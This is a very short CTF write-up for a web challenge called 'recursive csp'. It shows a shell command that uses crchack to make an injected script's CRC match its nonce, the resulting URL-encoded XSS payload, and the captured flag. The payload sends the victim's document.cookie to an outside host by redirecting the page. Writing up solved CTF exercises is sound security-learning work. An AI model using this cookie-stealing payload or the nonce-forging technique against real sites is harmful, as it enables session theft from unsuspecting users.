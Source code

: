 # recursive csp (web)
Generated with [crchack](https://github.com/resilar/crchack)

```sh
echo '<script nonce="41414141">document.location=`https://seraphin.xyz/?${document.cookie}`</script>l' | ./crchack - 41414141 | xxd
```

```
?name=%3Cscript%20nonce%3D%2241414141%22%3Edocument%2Elocation%3D%60https%3A%2F%2Fseraphin%2Exyz%2F%3F%24%7Bdocument%2Ecookie%7D%60%3C%2Fscript%3El%0A%b7%a1%f8%23
```

```
dice{h0pe_that_d1dnt_take_too_l0ng}
```
